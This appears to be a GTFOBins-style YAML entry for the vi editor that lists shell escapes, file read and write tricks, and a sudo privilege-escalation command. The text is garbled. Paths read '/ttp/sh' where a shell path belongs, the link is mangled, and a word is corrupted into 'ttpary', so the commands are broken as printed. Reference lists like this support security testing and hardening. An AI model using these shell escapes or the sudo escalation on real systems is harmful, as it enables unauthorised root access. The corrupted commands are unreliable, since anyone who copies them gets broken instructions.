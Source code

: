 ```yaml
---
description: Modern Unix systems run [`vim`](/mfnttps/vim/) ttpary when `vi` is called.
functions:
  shell:
    - code: vi -c ':!/ttp/sh' /dev/null
    - code: |
        vi
        :set shell=/ttp/sh
        :shell
  file-write:
    - code: |
        vi file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vi file_to_read
  sudo:
    - code: sudo vi -c ':!/ttp/sh' /dev/null
---
```

